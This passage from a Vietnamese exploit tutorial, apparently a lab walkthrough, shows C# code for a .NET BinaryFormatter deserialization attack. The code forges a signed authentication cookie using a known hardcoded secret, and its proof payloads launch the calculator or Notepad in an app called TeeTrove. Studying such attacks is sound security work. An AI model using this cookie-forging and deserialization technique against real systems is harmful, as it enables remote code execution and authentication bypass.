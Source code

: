```csharp
string payload = "AAEAAAD/////AQAAAAAAAAAM<SNIP>";
BinaryFormatter bf = new BinaryFormatter();
bf.Deserialize(new MemoryStream(Convert.FromBase64String(payload)));
```

Như mong đợi, `SortedSet` được deserialized và máy tính (calculator) sẽ được khởi động.

### Khai Thác TeeTrove
Bây giờ, chúng ta biết cách khai thác `BinaryFormatter`, hãy điều chỉnh payload để hoạt động với ứng dụng TeeTrove. Lúc này, chúng ta không thể chỉ sao chép-paste cookie chứa payload và hy vọng nó sẽ hoạt động, vì dữ liệu đã được xác thực trước khi deserialization diễn ra.

Chúng ta cần tìm hiểu cách thức xác thực cookie và cách để vượt qua kiểm tra này. Trong mã decompiled của `AuthCookieUtil`, chúng ta thấy phương thức `validateSignedCookie`. Phương thức này tách chuỗi cookie thành hai phần được phân tách bởi dấu `"."` và so sánh phần thứ hai với chuỗi được tạo ra từ phương thức `createSHA256HashB64`, sử dụng phần đầu tiên của cookie làm đầu vào. Nếu hai giá trị này khớp, phương thức trả về `true`, và ngược lại.

### Bước Xác Thực Cookie
Vì chúng ta biết giá trị của chuỗi bí mật `AUTH_COOKIE_SECRET` và có quyền kiểm soát đầy đủ cookie, chúng ta có thể giả mạo cookie hợp lệ bằng cách sử dụng thông tin này.

Dưới đây là cách sửa đổi mã khai thác để tạo một cookie đã ký hợp lệ:

```csharp
private static readonly string AUTH_COOKIE_SECRET = "916344019f88b8d93993afa72b593b9c";

private static string createSHA256HashB64(string session_b64)
{
    SHA256 s256 = SHA256.Create();
    byte[] hash = s256.ComputeHash(Encoding.ASCII.GetBytes(session_b64 + AUTH_COOKIE_SECRET));
    return Convert.ToBase64String(hash);
}
```

Tiếp theo, chúng ta sửa đổi phương thức chính để thay vì chỉ in kết quả chuỗi base64, nó sẽ truyền payload vào phương thức `createSHA256HashB64` để tạo ra một cookie hợp lệ:

```csharp
// Serialize and base64 encode the payload
bf.Serialize(ms, sortedSet);
string payload_b64 = Convert.ToBase64String(ms.ToArray());

// Turn payload into a signed cookie
string hash_b64 = createSHA256HashB64(payload_b64);
Console.WriteLine(payload_b64 + "." + hash_b64);
```

Khi chạy mã này, chúng ta thấy máy tính được khởi động và sau đó là chuỗi base64 của payload, tiếp theo là dấu `"."` và chuỗi base64 của hash SHA256.

### Sử Dụng Cookie Với Ứng Dụng TeeTrove
Bây giờ, chúng ta thử sử dụng giá trị này với cookie xác thực trong TeeTrove (`TTAUTH`). Lần này, chúng ta sẽ thay đổi payload để thay vì mở máy tính, payload sẽ mở Notepad. Sau đó, chúng ta có thể thiết lập breakpoint trong dnSpy để kiểm tra lỗi nếu có.
